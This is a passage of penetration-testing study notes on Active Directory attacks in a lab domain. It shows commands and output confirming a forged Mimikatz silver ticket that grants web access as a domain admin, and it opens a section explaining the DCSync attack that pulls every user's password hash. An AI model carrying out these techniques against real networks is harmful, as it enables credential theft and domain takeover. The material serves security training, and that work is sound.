 A new service ticket for the SPN _HTTP/web04.corp.com_ has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket. From the perspective of the IIS application, the current user will be both the built-in local administrator ( _Relative Id: 500_ ) and a member of several highly-privileged groups, including the Domain Admins group ( _Relative Id: 512_ ) as highlighted above.

This means we should have the ticket ready to use in memory. We can confirm this with **klist**. 

```
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

The output shows that we have the silver ticket for _jeffadmin_ to access _http/web04.corp.com_ submitted to our current session. This should allow us to access the web page on WEB04 as _jeffadmin_. Let's verify our access using the same command as before.

```
PS C:\Tools> iwr -UseDefaultCredentials http://web04

StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                    <head>
...
```

## DSync (User with a set of permissions impersonate the DC and retrieve passwords - From Windows or impacket-secretsdump)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync

To launch such a replication, a user needs to have the _Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights. By default, members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups have these rights assigned. If we obtain access to a user account in one of these groups or with these rights assigned, we can perform a _dcsync_ attack in which we impersonate a domain controller. This allows us to request any user credentials from the domain. We can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator _Administrator_.
